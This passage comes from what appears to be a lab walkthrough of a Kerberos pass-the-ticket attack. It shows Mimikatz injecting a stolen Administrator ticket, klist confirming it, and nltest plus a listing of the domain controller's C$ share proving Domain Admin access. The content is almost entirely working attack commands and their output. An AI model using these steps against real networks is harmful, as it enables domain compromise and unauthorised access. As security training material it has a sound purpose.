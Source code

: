    ```

   mimikatz(powershell) # kerberos::ptt [0;4a16d]-2-0-40e10000-Administrator@krbtgt-BOSSMANBEN.LOCAL.kirbi

   * File: '[0;4a16d]-2-0-40e10000-Administrator@krbtgt-BOSSMANBEN.LOCAL.kirbi': OK
   ```

3. View the cached tickets using `klist`:
   ```
   Current LogonId is 0:0xd0ebf

   Cached Tickets: (1)

   #0>     Client: Administrator @ BOSSMANBEN.LOCAL
           Server: krbtgt/BOSSMANBEN.LOCAL @ BOSSMANBEN.LOCAL
           KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
           Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
           Start Time: 7/12/2019 16:38:17 (local)
           End Time:   7/13/2019 2:38:17 (local)
           Renew Time: 7/19/2019 16:38:17 (local)
           Session Key Type: AES-256-CTS-HMAC-SHA1-96
           Cache Flags: 0x1 -> PRIMARY
           Kdc Called:
   ```
   - The current ticket for the session is now `Administrator @ BOSSMANBEN.LOCAL` which is a Domain Administrator
   - The current PSSession should now be able to impersonate the Domain Administrator

   <span></span>

4. Check if the Domain Controller (BOSSMANBEN) now accessible:
   - Get the Primary Domain Controller for BOSSMANBEN:
     ```powershell
     nltest /DCNAME:BOSSMANBEN
     ```
     ```
     PDC for Domain BOSSMANBEN is \\WIN-BO2CT95INDP
     The command completed successfully
     ```
   - List contents of the file share, `C$`:
     ```powershell
     dir \\WIN-BO2CT95INDP\C$
     ```
     ```
   
         Directory: \\WIN-BO2CT95INDP\C$


     Mode                LastWriteTime         Length Name
     ----                -------------         ------ ----
     d-----       16/07/2016   6:23 AM                PerfLogs
     d-r---       09/07/2019   3:01 PM                Program Files
     d-----       16/07/2016   6:23 AM                Program Files (x86)
     d-r---       09/07/2019   3:01 PM                Users
     d-----       09/07/2019   3:10 PM                Windows
     -a----       11/07/2019  12:53 PM              5 gg
